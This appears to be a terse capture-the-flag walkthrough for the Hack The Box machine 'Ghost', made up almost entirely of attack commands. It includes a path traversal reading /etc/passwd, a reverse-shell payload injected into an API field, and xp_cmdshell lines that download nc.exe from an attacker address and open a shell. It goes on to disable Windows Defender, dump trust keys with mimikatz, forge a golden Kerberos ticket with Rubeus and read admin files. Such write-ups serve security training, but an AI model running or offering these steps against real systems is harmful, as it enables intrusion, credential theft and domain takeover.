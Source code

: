 # Ghost


    http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


    curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


    python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

    impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

uxxxxxxxxx和Hexxxxxxx都可以

    enum_links

    use_link [PRIMARY]

    use master

    exec_as_login sa

--impacket-mssqlclient-- 
                      
    EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'

    EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';

                             
--python3 mssqlclient.py-- 

    xp_cmdshell


    ./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


    wmic useraccount get name,sid


关AV：

    Set-MpPreference -DisableRealtimeMonitoring $true



    .\mimikatz.exe "lsadump::trust /patch" exit


    .\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


    .\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


    type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
    
    type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
